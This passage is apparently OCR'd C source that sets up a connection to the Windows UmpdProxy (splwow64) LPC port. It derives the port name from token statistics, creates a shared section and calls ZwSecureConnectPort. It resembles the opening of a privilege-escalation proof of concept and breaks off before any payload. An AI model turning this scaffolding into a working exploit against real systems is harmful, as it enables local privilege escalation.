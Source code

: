 typedef struct _PROXY_MSG {
	PORT_MESSAGE_HEADER MessageHeader;
	UINT64 InputBufSize;
	UINT64 InputBuf;
	UINT64 OutputBufSize;
	UINT64 OutputBuf;
	UCHAR Padding[0x1F8];
} PROXY_MSG, *PPORT_MESSAGE;

PROXY_MSG LpcReply;
PROXY_MSG LpcRequest;

int GetPortName(PUNICODE_STRING DestinationString)
{
	void *tokenHandle;
	DWORD sessionId;
	ULONG length;

	int tokenInformation[16];
	WCHAR dst[256];

	memset(tokenInformation, 0, sizeof(tokenInformation));
	ProcessIdToSessionId(GetCurrentProcessId(), &sessionId);

	memset(dst, 0, sizeof(dst));

	if (NtOpenProcessToken(GetCurrentProcess(), READ_CONTROL | TOKEN_QUERY, &tokenHandle)
		|| ZwQueryInformationToken(tokenHandle, TokenStatistics, tokenInformation, sizeof(tokenInformation), &length))
	{
		return 0;
	}

	wsprintfW(
		dst,
		L"\\RPC Control\\UmpdProxy_%x_%x_%x_%x",
		sessionId,
		tokenInformation[2],
		tokenInformation[3],
		0x2000);
	RtlInitUnicodeString(DestinationString, dst);

	return 1;
}

HANDLE CreatePortSharedBuffer(PUNICODE_STRING PortName)
{
	HANDLE sectionHandle = 0;
	HANDLE portHandle = 0;
	union _LARGE_INTEGER maximumSize;
	maximumSize.QuadPart = 0x20000;

	NtCreateSection(&sectionHandle, SECTION_MAP_WRITE | SECTION_MAP_READ, 0, &maximumSize, PAGE_READWRITE, SEC_COMMIT, NULL);
	if (sectionHandle)
	{
		ClientView.SectionHandle = sectionHandle;
		ClientView.Length = 0x30;
		ClientView.ViewSize = 0x9000;
		ZwSecureConnectPort(&portHandle, PortName, NULL, &ClientView, NULL, NULL, NULL, NULL, NULL);
	}
